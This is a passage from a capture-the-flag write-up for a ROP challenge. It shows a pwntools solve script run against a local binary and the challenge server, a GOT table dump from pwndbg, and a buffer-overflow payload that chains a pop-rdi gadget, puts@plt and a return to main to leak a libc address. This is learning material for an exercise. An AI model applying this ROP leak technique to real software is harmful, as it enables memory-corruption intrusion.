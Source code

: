 to verify if i was doing things right i also tried this remotely, and it worked!

```
$ python3 solve.py 
[+] Opening connection to ch.hackyeaster.com on port 2314: Done

[*] Switching to interactive mode
 $ 
Are you a master of ROP?
timeout: the monitored command dumped core
[*] Got EOF while reading in interactive
$ 
$ quit
[*] Closed connection to ch.hackyeaster.com port 2314
[*] Got EOF while sending in interactive
```

after some time i was able to leak a got address and run the main function again!

viewing the got addresses:

```
pwndbg> got
GOT protection: Partial RELRO | GOT functions: 5
[0x601018] puts@GLIBC_2.2.5 -> 0x400556 (puts@plt+6) ◂— push 0 /* 'h' */
[0x601020] setbuf@GLIBC_2.2.5 -> 0x7ffff7e43160 (setbuf) ◂— mov edx, 0x2000
[0x601028] printf@GLIBC_2.2.5 -> 0x400576 (printf@plt+6) ◂— push 2
[0x601030] prctl@GLIBC_2.2.5 -> 0x7ffff7ece0e0 (prctl) ◂— sub rsp, 0x58
[0x601038] gets@GLIBC_2.2.5 -> 0x400596 (gets@plt+6) ◂— push 4
```

```
s.send(b"A" * 40 + p64(pop_rdi_gadget) + p64(puts_got) + p64(puts_plt) + p64(ret_gadget) + p64(main_func_addr) + b"\n")
```

```
$ python3 solve.py 
[+] Starting local process './main': pid 5448

[*] Switching to interactive mode
  x.\x822\x7f
Are you a master of ROP?
Show me what you can do: $ 
[*] Got EOF while reading in interactive
$ 
[*] Process './main' stopped with exit code -11 (SIGSEGV) (pid 5448)
[*] Got EOF while sending in interactive
```

checking if the addresses are the same, to do so i attached gdb to the same process:

```
b'  X\xaa\x98\x93\x7f\nAre you a master of ROP?\nShow me what you can do:'

pwndbg> p puts
$1 = {int (const char *)} 0x7f9398aa5820 <__GI__IO_puts>
```
